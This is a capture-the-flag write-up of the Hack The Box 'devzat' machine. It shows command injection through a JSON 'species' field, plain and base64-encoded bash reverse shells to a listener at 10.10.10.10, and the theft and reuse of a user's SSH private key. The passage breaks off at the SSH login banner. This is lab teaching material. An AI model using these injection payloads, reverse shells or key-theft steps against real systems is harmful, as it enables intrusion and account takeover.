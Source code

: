 # Inital foothold
Ok so by using pentestmonkeys reverseshell cheatsheet we try to achive a reverse shell. For some reason a normal reverse sell doesn't work.
```json
// Query
{"name":"hello","species":"gopher; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 7070 >/tmp/f"}
// Reply
{"name":"hello","species":"gopher; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2\u003e\u00261|nc 10.10.10.10 7070 \u003e/tmp/f","characteristics":"exit status 127"}]

```
So lets simply base 64 encode it and try it again.
```bash
┌──(kali㉿kali)-[~/Documents/htb/devzat]
└─$ echo "bash -i >& /dev/tcp/10.10.10.10/7070 0>&1" | base64                                                                                                                                     
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xMC83MDcwIDA+JjEK
                                                                                                                                                                                                                    
┌──(kali㉿kali)-[~/Documents/htb/devzat]
└─$ echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xMC83MDcwIDA+JjEK" | base64 -d
bash -i >& /dev/tcp/10.10.10.10/7070 0>&1
```
Now sending the encoded reverse shell
```bash
# Request
{"name":"hello","species":"gopher; echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xMC83MDcwIDA+JjEK" | base64 -d | bash"}

# ---- Listener
┌──(kali㉿kali)-[~/Documents/htb/devzat]
└─$ nc -nvlp 7070
listening on [any] 7070 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.11.118] 40274
bash: cannot set terminal process group (832): Inappropriate ioctl for device
bash: no job control in this shell
patrick@devzat:~/pets$
```
We got shell!
# Enumeration
So our shell is bad, we need to upgrade that, `python -c 'import pty; pty.spawn("/bin/bash")'` didn't seem to work, so lets find another way. We can read the .ssh/id_rsa. This means that we can start logging in to the machine via a private key. Simple, we will just copy the contents and put that in our own .ssh folder as id_rsa_patrick. Don't be an idiot like me and use `chmod +600`, becuase that adds privileges, instead you need `chmod 600` becuase that sets it to 600.
```bash
patrick@devzat:~$ ls /home/patrick/.ssh/
authorized_keys  id_rsa  known_hosts

-------


┌──(kali㉿kali)-[~/.ssh]
└─$ vim id_rsa_patrick
┌──(kali㉿kali)-[~/.ssh]    
└─$ chmod +600 id_rsa_patrick                                                                                                                                                                                     

┌──(kali㉿kali)-[~/.ssh] 
└─$ ssh -i id_rsa_patrick patrick@10.10.11.118
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
```